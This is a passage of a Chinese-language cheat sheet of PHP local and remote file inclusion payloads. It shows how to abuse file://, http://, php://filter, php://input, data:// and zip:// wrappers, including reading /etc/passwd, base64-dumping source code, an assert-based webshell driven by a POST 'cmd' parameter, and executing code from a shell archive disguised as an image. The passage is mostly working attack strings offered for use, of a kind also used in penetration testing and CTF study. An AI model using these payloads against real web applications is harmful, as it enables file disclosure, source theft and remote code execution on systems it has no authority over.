   ```
  http://xxx/include?file=file:///etc/passwd
  ```

- http://

  远程文件包含利用http伪协议包含远程文件

  > allow url fopen=on
  > allow url include=on

  ```
  http://xxx/include?file=http://xxx/xx.php
  ```

- php://filter

  将文件内容以base64的形式进行显示

  ```
  http://xxx/include?file=php://filter/read=convert.base64-encode/resource=xx.php
  ```

- php://input

  将POST请求体内的内容当做php代码执行

  > allow url fopen=on/off
  > allow url include=on

  ```php
  #连shell
  http://xxx.php?file=php://input  #url
  <?=assert($_POST['cmd'])?>&cmd  #连接密码
  ```

- data://

  执行接收到的数据中包含的php代码

  > allow url fopen=on
  > allow url include=on

  ```
  ?file=data://text/plain,<?php phpinfo()?>
  ?file=data:text/plain,<?php phpinfo()?>
  ?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
  ```

- zip://

  读取压缩包内的文件，如果文件内包含php代码则直接执行

  > allow url fopen=off/on
  >
  > allow url include=off/on

  ```
  ?file=zip://shell.zip%23shell.txt
  ?file=zip://shell.jpg%23shell.txt
  ```
